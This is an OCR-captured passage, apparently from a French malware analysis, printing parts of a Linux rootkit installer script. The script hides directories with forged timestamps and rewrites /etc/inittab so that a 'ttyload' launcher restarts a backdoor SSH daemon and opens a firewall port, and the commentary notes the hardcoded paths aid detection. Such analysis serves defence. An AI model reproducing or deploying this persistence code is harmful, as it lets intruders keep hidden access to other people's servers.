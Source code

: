 ```bash
  chattr -isa /usr/lib/libsh/*
  rm -rf /usr/lib/libsh/*
fi

mkdir $SSHDIR
touch -acmr /bin/ls $SSHDIR
mkdir $HOMEDIR
touch -acmr /bin/ls $HOMEDIR

cd $BASEDIR/bin
mv .sh/* $SSHDIR/
mv .sh/.bashrc $HOMEDIR

[coupé]

cp /bin/bash $SSHDIR
```

Par souci de lisibilité, j'ai retiré certaines lignes. Le script place ses binaires dans les dossiers `/usr/lib/libssh` et `/lib/libsh.so`. Ces dossiers étant hardcodés il est aisé pour un administrateur ou un outil de sécurité de vérifier leur présence
 même si les binaires ont été modifiés.

```bash
# INITTAB SHUFFLING
chattr -isa /etc/inittab
cat /etc/inittab |grep -v ttyload|grep -v getty > /tmp/.init1
cat /etc/inittab |grep getty > /tmp/.init2

echo "# Loading standard ttys" >> /tmp/.init1
echo "0:2345:once:/usr/sbin/ttyload" >> /tmp/.init1
cat /tmp/.init2 >> /tmp/.init1
echo "" >> /tmp/.init1
echo "# modem getty." >> /tmp/.init1
echo "# mo:235:respawn:/usr/sbin/mgetty -s 38400 modem" >> /tmp/.init1
echo "" >> /tmp/.init1
echo "# fax getty (hylafax)" >> /tmp/.init1
echo "# mo:35:respawn:/usr/lib/fax/faxgetty /dev/modem" >> /tmp/.init1
echo "" >> /tmp/.init1
echo "# vbox (voice box) getty" >> /tmp/.init1
echo "# I6:35:respawn:/usr/sbin/vboxgetty -d /dev/ttyI6" >> /tmp/.init1
echo "# I7:35:respawn:/usr/sbin/vboxgetty -d /dev/ttyI7" >> /tmp/.init1
echo "" >> /tmp/.init1
echo "# end of /etc/inittab" >> /tmp/.init1

echo "/sbin/ttyload -q >/dev/null 2>&1" > /usr/sbin/ttyload
echo "/sbin/ttymon >/dev/null 2>&1" >> /usr/sbin/ttyload
echo "/sbin/ttylib >/dev/null 2>&1" >> /usr/sbin/ttyload
echo "/sbin/iptables -I INPUT -p tcp --dport $port -j ACCEPT" >> /usr/sbin/ttyload
echo "iptables -I INPUT -p tcp --dport $port -j ACCEPT" >> /usr/sbin/ttyload

touch -acmr /bin/ls /usr/sbin/ttyload
chmod +x /usr/sbin/ttyload
chattr +isa /usr/sbin/ttyload
/usr/sbin/ttyload >/dev/null 2>&1

touch -amcr /etc/inittab /tmp/.init1
mv -f /tmp/.init1 /etc/inittab
rm -rf /tmp/.init2

# MAKING SURE WE GOT IT BACKDORED RIGHT !
if [ ! "`grep ttyload /etc/inittab`" ]; then
  echo "${RED}[${WHI}sh${RED}]# WARNING - SSHD WONT BE RELOADED UPON RESTART"
  echo "${RED}[${WHI}sh${RED}]# inittab shuffling probly fucked-up !"
```